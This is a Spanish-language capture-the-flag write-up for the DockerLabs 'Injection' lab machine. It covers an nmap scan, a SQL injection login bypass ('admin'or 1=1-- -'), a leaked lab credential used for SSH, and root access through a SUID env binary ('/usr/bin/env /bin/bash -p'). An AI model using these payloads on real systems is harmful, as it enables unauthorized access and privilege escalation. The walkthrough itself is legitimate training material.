

Maquina INJECTION de [DockerLabs](https://dockerlabs.es)

Dificultad: Muy Fácil

Creador: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)



# INTRUSION

Comenzamos haciendo un escaneo con nmap:

```css
nmap -sVC 172.17.0.2
```

```ruby
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 14:58 -03
Nmap scan report for 172.17.0.2
Host is up (0.00028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.72 seconds
```

Vemos que solo esta abierto el puerto 22 y 80, sabiendo esto nos iremos directo al navegador y vemos un `panel de login`. Luego de probar las credenciales tipias como `admin:admin` o `root:root` pero ninguna funciona, por lo que continuaremos con probar una inyeccion sql, para esto, `escribiremos el usuario y junto a el 'or 1=1-- -` y de contraseña lo que sea, finalmente quedaria así:

```css
admin'or 1=1-- -
```

Habiendo hecho esto logramos iniciar sesion y nos dan el siguiente mensaje:


Ahora continuaremos probando el usuario "dylan" con la contraseña "KJSDFG789FGSDF78". Ya estamos dentro.

# ESCALADA DE PRIVILEGIOS

Lo primero que hacemos es ejecutar `sudo -l` pero como no existe ejecutamos `find / -perm -4000 2>/dev/null` y vemos que el binario `env` sale como `/usr/bin/env`, por lo que buscamos en [GTFOBins](https://gtfobins.github.io) y vemos que si ejecutamos lo siguiente escalamos de privilegios a root:

```css
/usr/bin/env /bin/bash -p
```

y listo, somos ROOT.


Gracias por leer.


Si te interesa:

[INSTAGRAM](https://instagram.com/macim0_)